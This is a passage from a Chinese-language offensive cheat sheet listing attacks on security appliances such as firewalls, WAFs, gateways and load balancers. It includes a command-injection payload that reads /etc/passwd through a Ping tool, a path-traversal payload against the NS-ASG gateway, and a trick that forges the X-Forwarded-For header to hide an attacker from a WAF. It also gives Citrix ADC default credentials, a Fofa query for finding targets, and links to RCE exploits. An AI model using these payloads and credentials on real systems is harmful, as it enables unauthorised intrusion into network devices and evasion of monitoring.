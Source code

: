 - **后台命令执行漏洞**
    ```
    系统管理 --> 维护工具 --> Ping
    127.0.0.1|cat /etc/passwd
    ```

**zeroshell**
- **rce**
    - POC | Payload | exp
        - [ZeroShell 3.9.0 - 'cgi-bin/kerbynet' Remote Root Command Injection (Metasploit)](https://www.exploit-db.com/exploits/49096)

---

### WAF

**Sophos XG**
- **CVE-2020-12271 && CVE-2020-15504**
    - 相关文章
        - [Sophos XG - A Tale of the Unfortunate Re-engineering of an N-Day and the Lucky Find of a 0-Day](https://codewhitesec.blogspot.com/2020/07/sophos-xg-tale-of-unfortunate-re.html)

**绿盟 waf 封禁绕过s**
- XFF 伪造字段地址为 127.0.0.1，导致 waf 上看不见攻击者地址

---

### 网关

**上海格尔安全认证网关管理系统**
- [上海格尔安全认证网关管理系统命令执行漏洞大礼包](https://php.mengsec.com/bugs/wooyun-2016-0170003.html)
- [上海格尔软件安全认证网关命令执行漏洞（无需登录）](https://php.mengsec.com/bugs/wooyun-2016-0169715.html)
- [上海格尔软件安全认证网关命令执行漏洞（可批量getshell）](https://php.mengsec.com/bugs/wooyun-2016-0170010.html)

**网康 NS-ASG 安全网关**

> Fofa : 网康 NS-ASG 安全网关

- **任意文件读取漏洞**
    - POC | Payload | exp
        ```
        /admin/cert_download.php?file=pqpqpqpq.txt&certfile=../../../../../../../../etc/passwd
        ```

---

### 负载均衡

**Citrix ADC**
- **默认口令**
    ```
    nsroot/nsroot
    ```

- **CVE-2019-19781 Citrix Gateway/ADC 远程代码执行漏洞**
    - 相关文章
        - [Citrix Gateway/ADC 远程代码执行漏洞分析](https://www.freebuf.com/news/232752.html)
